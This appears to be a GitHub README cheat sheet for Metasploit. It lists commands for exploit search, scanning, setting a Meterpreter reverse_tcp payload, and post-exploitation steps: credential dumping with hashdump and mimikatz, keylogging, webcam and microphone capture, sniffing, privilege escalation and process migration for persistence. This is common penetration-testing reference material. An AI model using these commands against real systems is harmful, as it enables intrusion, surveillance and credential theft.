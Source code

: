 # MetaSploit

## Initialize
- Database settings: 
  - ```systemctl start postgresql```
  - ```msfdb init```
- Run: ```msfconsole```  
- Workspace
  - Create: ```workspace -a nasa``` 
  - Delete: ```workspace -d nsa```
  - Show: ```workspace```  
  - Go to a workspace: ``` workspace nasa``` 

## Search
- Example
  - ```search type:exploit cve:2019```
  - ```search type:auxiliary cve:2019```
  - ```search platform:windows description:chrome```
  - ```search platform:android description:2019```
  - ```search platform:exploit description:samsung```
- Nmap
  - ```nmap -sV -oX output.xml 192.168.3.5```
  - ```searchsploit --nmap output.xml```

## Auxiliary
- Example
  - ```use  auxiliary/scanner/mongodb/mongodb_login```
  - ```set rhosts 192.168.1.0/24```
  - ```run```


## Exploit
- Change default payload
  - ```show payloads``` 
  - ```set payload windows/meterpreter/reverse_tcp```
- Change target
  - ```show targets```
  - ```set target 1```
- Add new exploit
  - Download exploit from *"exploit-db"* that contains *"This module requires metasploit"* in text & ```Class MetasploitModule``` in code
  - Add file to ```/root/.msf4/local```
  - Restart OS & Postgresql

## Meterprete
- Common
  - ```pwd``` & ```lpwd```
  - ```ls``` & ```lls```
  - ```download h.txt```
  - ```upload```
- Show SAM file
  - ```hashdump```
- Spy
  - ```record_mic -d 60```
  - ```webcam_snap```
  - ```screenshot```
  - ```arp```
  - ```netstat```
  - ```keyscan_start``` & ```keyscan_dump``` & ```keyscan_stop```
  - ```getuid```
- Mimikatz
  - ```load mimikatz```
  - ```help```
- Pcap
  - ```load sniffer```
  - ```help```
  - ```sniffer interfaces```
  - ```sniffer_start z packet_buffer 40```
  - ```sniffer_dump z test.pcap```
  - ```sniffer_stop```
- PE
  - ```getsystem```
- Process & Migrate
  - ```ps```
  - ```migrate 596```
    - 596 is PID of service.exe - DLL Hijack for persistant
